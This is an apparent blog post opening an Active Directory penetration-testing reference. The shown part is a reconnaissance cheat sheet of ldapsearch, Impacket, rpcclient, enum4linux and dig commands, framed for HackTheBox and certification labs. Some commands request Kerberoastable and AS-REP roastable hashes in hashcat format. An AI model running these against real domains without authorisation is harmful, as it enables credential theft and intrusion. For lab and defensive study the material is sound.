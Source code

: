 ```yaml
---
layout: post
title: "🔥 Active Directory Attack Notes - Advanced Practical Reference"
date: 2025-06-28 08:57:55 +0000
categories: [Cybersecurity] [Penetration Testing] [Active Directory]
tags: [activedirectory, pentesting, redteam, cybersecurity, hacking, kerberos, adcs, mimikatz, impacket, bloodhound]
---
```


## 🔥 Active Directory Attack Notes - Advanced Practical Reference

🎉 **Just completed the ultimate comprehensive Active Directory attack methodology guide!** This massive reference covers every attack vector, technique, and tool you need for advanced AD penetration testing and red team operations.

After extensive research, lab testing, and practical validation across HackTheBox, CRTP, CRTE, and CRTM environments, I've compiled this complete arsenal of 200+ commands, 50+ specialized tools, and cutting-edge attack chains for both Linux and Windows platforms.

---

## 🎯 **Initial Access & Advanced Reconnaissance**

### **🔍 Comprehensive Domain Enumeration**

#### **Linux Tools:**
```bash
# LDAP Deep Enumeration
ldapsearch -H ldap://DC_IP -x -b "DC=domain,DC=com" -s sub "(objectClass=*)" | grep -i "member\|admin\|service"
ldapsearch -H ldap://DC_IP -x -b "DC=domain,DC=com" "(userAccountControl:1.2.840.113556.1.4.803:=4194304)" # DONT_REQUIRE_PREAUTH
ldapsearch -H ldap://DC_IP -x -b "DC=domain,DC=com" "(userAccountControl:1.2.840.113556.1.4.803:=524288)" # TRUSTED_FOR_DELEGATION
ldapsearch -H ldap://DC_IP -x -b "DC=domain,DC=com" "(servicePrincipalName=*)" # All SPNs

# Impacket Advanced Recon
GetADUsers.py -dc-ip DC_IP domain.com/username:password -all
GetUserSPNs.py -dc-ip DC_IP domain.com/username:password -request-user TARGET_USER
GetNPUsers.py -dc-ip DC_IP domain.com/ -usersfile users.txt -format hashcat
lookupsid.py domain.com/username:password@DC_IP # Get domain SID
GetADComputers.py -dc-ip DC_IP domain.com/username:password

# Advanced enum4linux
enum4linux -a -M -l -d DC_IP
enum4linux -a -u "" -p "" DC_IP

# rpcclient Advanced
rpcclient -U "" -N DC_IP
> enumdomusers | grep -v "user:" | cut -d[ -f2 | cut -d] -f1 > users.txt
> enumdomgroups
> queryusergroups 0x1f4 # Admin RID
> querygroupmem 0x200 # Domain Admins
> enumprivs
> srvinfo

# DNS Enumeration
dig @DC_IP _ldap._tcp.domain.com SRV
dig @DC_IP _kerberos._tcp.domain.com SRV
dig @DC_IP _ldap._tcp.dc._msdcs.domain.com SRV
```